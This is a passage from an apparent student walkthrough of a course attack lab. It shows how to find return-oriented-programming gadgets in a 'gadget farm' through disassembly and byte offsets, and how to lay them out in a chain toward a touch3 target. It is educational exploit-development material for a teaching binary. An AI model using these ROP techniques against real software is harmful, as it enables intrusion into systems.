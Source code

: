same as step1, you want the `c3` to be at the end of `48 89 c7`.

`48 89 c7 c3 movq %rax to %rdi`

```
000000000040276d <addval_175>:
  40276d:	f3 0f 1e fa          	endbr64 
  402771:	8d 87 48 89 c7 c3    	lea    -0x3c3876b8(%rdi),%eax
  402777:	c3                   	ret   
```

`402771 + 2 = 402773`


#### step3

`58 c3 popq %rax`

the `90` in between `58` and `c3` shouldn't be a problem because it is a `nop`.

```
00000000004027b9 <addval_349>:
  4027b9:	f3 0f 1e fa          	endbr64 
  4027bd:	8d 87 c9 58 90 c3    	lea    -0x3c6fa737(%rdi),%eax
  4027c3:	c3                   	ret
```

`4027bd + 3 = 4027c0`


#### step4

why the offset? the offset is important because we need to have enough space for the empty row to the touch3 address. for now, let's fill in the row with just 0s

`00 00 00 00 00 00 00 00`. we'll modify at the last step.


#### step5


in these next few steps, there will be weird things like `08 db` and `08 d2` in between the instruction and the return value `c3`. the ones that are on the pdf chart that indicate 2-byte nop instrucitons are the ones you want to use.

when doing `movl`, the upper 4 bytes are ignored, and only the lower 32 bits are used.

`movq %rax, %rsi`. since this instruction needs to be broken up, my gadget farm indicated I needed to go

`%eax to %ecx`, then `%ecx to %edx`, finally `%edx, %esi`.


`89 c1 movl %eax, %ecx`

```
00000000004028f8 <addval_473>:
  4028f8:	f3 0f 1e fa          	endbr64 
  4028fc:	8d 87 89 c1 08 db    	lea    -0x24f73e77(%rdi),%eax
  402902:	c3                   	ret
```
